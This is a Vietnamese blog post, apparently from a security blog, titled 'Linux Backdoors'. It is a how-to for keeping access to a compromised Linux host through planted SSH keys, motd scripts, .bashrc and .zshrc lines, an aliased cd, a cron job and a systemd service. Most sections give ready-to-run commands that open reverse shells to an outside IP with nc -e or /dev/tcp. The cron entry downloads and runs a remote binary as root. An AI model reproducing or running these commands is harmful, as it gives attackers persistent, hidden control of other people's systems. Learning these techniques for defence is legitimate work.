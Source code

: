 ```yaml
---
title: "Linux Backdoors"
date: 2021-06-28T18:17:00+07:00
draft: false
categories: [
    "Offensive Security"
]
tags: [
    "Linux",
]
---
```

Trong thực tế khi có quyền truy cập vào mục tiêu(SSH, VNC, interactive shell ...) thì việc để lại backdoor là một phần quan trọng để duy trì quyền truy cập vào hệ thống mục tiêu. Do đó, việc học một số kỹ thuật backdoor là điều cần thiết, không chỉ đối với những kẻ tấn công mà cả những người phòng thủ. Sau đây chúng ta sẽ tìm hiểu một số kĩ thuật backdoor thông dụng. Ở đây chúng ta chỉ thảo luận trong thế giới Linux!
### Backdoor là gì?
Backdoor là một đoạn mã ẩn, script hay chương trình đặt trên máy mục tiêu phục vụ cho mục đích truy cập dài hạn vào mục tiêu của kẻ tấn công,với điều đó bạn không phải khai thác cùng một hệ thống hai lần. Nó chỉ đơn giản là cung cấp cho bạn quyền truy cập nhanh hơn và tức thì vào hệ thống.
### 1. SSH Keys
SSH authorized_keys tập tin chứa một danh sách các ủy quyền người dùng / khóa công khai được phép đăng nhập vào một tài khoản cụ thể. Trong tệp này, những kẻ tấn công cũng có thể đặt các khóa công khai của chúng để tự cấp quyền và truy cập ngay vào hệ thống thông qua SSH.\
#### Victim
`ssh-keygen -t rsa`\
-> generate key pair\
`cat /$(whoami)/.ssh/id_rsa.pub > /$(whoami)/.ssh/authorized_keys`\
-> copy public key (id_rsa.pub) to authorized_keys
#### Attacker
Copy private key (id_rsa)\
`chmod 600 id_rsa`\
-> set permission \
`ssh -i id_rsa username@victim`\
-> ssh to victim\
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-key.PNG)
### 2. SSH motd
motd (Tin nhắn trong ngày) là banner xuất hiện khi bạn đăng nhập vào máy bằng SSH. Đối với Ubuntu / Debian các tập lệnh motd có thể được tìm thấy tại /etc/update-motd.d. Theo mặc định, những người dùng khác không có quyền ghi trên thư mục đó.
`cd /etc/update-motd.d && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' > 20-backdoor && chmod +x 20-backdoor`\
Lưu ý: & -> run command in background
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/ssh-motd.PNG)
### 3. User’s .bashrc — Interactive session
.bashrc là một trong những tập lệnh khởi động được sử dụng bởi Bourne shell bash (zsh là .zshrc). Nếu có người dùng sử dụng bashlàm trình bao đăng nhập của họ, thì tập lệnh sẽ được thực thi cho mỗi phiên tương tác mà họ khởi chạy.\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .bashrc`\
`cd && echo -e '#!/bin/bash\nnc 192.168.66.105 4444 -e /bin/bash &' >> .zshrc`\
sẽ nhận được reverse shell khi người dùng sử dụng lệnh `bash` hay `su username`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/bashrc.PNG)
### 4. User’s .bashrc — Aliases
Là một kẻ tấn công, chúng ta cũng có thể đặt backdoor trong bí danh của người dùng! Đây cũng là 1 phương pháp tôi rất thích.\
`alias cd='$(nc 192.168.66.105 4444 -e /bin/bash &); cd'`\
-> Chúng ta sẽ nhận được reverse shell mỗi khi người dùng sử dụng lệnh cd
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/alias.PNG)
Dưới đây là một số backdoor phức tạp khác sử dụng bí danh:
* [https://github.com/nisay759/sudo-backdoor](https://github.com/nisay759/sudo-backdoor)
* [https://gist.github.com/ahhh/1d4bf832c5a88cc75adb](https://gist.github.com/ahhh/1d4bf832c5a88cc75adb)
### 5. Cron jobs
Cron là một tính năng từ OS like Linux / UNIX có thể được sử dụng để thực hiện định kỳ một công việc hoặc nhiệm vụ cụ thể giống như Task Scheduler trong Windows.\
`echo '* * * * * root cd /tmp; wget 192.168.66.105:8000/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/cron.PNG)
### 6. Backdoor as a Service (BaaS)
Kẻ tấn công cũng có thể tạo một backdoor như một service (BaaS). Đây là một ví dụ về BaaS ( backdoor.service):
```bash
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.66.105/4444 0>&1"
[Install]
WantedBy=multi-user.target
```
Khi service được bắt đầu, nó khởi chạy một reverse shell cho kẻ tấn công.\
`cd /etc/systemd/system && systemctl start backdoor.service`\
Nó cũng có thể được kích hoạt khi enable.\
`cd /etc/systemd/system && systemctl enable backdoor.service`
![https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/linux_backdoor/service.PNG)

